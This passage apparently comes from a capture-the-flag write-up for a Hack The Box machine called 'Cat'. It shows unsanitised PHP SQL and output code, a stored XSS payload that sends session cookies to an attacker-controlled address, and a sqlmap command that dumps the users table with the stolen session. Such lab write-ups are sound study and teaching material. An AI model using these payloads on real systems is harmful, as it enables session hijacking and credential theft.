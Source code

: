 In `accept_cat.php`, a SQL query inserts the cat name without proper sanitization:

```php
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
```

However, this endpoint is only accessible to authenticated user `axel`.

## Input Filtering in Cat Submission

When submitting a new cat, user inputs (name, age, birthdate, weight) are filtered using regex-based checks:

```php
if (contains_forbidden_content($cat_name, $forbidden_patterns)) {
    $error_message = "Your entry contains invalid characters.";
}
```

## Stored XSS via `username`

In `join.php`, the `username` field is not sanitized and is reflected in `view_cat.php`:

```php
<strong>Owner:</strong> <?php echo $cat['username']; ?><br>
```

This allows for a stored XSS attack:

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://10.10.14.10:1337/?' + document.cookie, true);
xhr.send();
</script>
```

Using this payload, we can exfiltrate session cookies of the admin user.

![Stored XSS](/ctf/hack-the-box/machines/cat/stored-xss.png)

# Exploitation

## Dumping the Database

Using the stolen `PHPSESSID`, we exploited the SQLi in `accept_cat.php` to extract user credentials:

```bash
sqlmap -u "http://cat.htb/accept_cat.php" \
--data "catId=1&catName=random" \
-p catName \
--cookie="PHPSESSID=kcmnovp0n0a82ofiiiactq0586" \
--level=5 --risk=3 --dbms=SQLite \
--technique=B -T "users" --threads=4 --dump
```
